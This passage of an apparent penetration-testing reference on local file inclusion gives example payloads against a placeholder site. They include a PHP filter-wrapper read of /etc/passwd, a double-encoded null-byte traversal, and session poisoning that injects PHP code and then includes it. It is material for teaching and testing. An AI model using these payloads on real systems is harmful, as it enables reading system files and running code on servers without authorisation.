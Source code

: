 ### Example 3: PHP Filter Wrapper Bypass

```
http://vulnerable.com/index.php?page=php://filter/convert.base64-encode/resource=../../../etc/passwd
```

### Example 4: Double URL-encoded Null Byte + Traversal

```
http://vulnerable.com/index.php?page=../../../etc/passwd%2500
```

### Example 5: Controlling PHP Session Content

```
# Set a malicious session variable
curl -X POST "http://vulnerable.com/login.php" -d "username=<?php system('id'); ?>"

# Include the session file
http://vulnerable.com/index.php?page=../../../var/lib/php/sessions/sess_[SESSIONID]
```

## References

- [OWASP Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [OWASP File Inclusion Vulnerabilities](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
- [PayloadsAllTheThings - LFI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
- [HackTricks - File Inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
- [TrustedSec - Building Encoded Path Traversals](https://www.trustedsec.com/blog/path-traversal-vulnerabilities-a-peek-into-the-darkness/)
- [PortSwigger - Directory Traversal](https://portswigger.net/web-security/file-path-traversal)


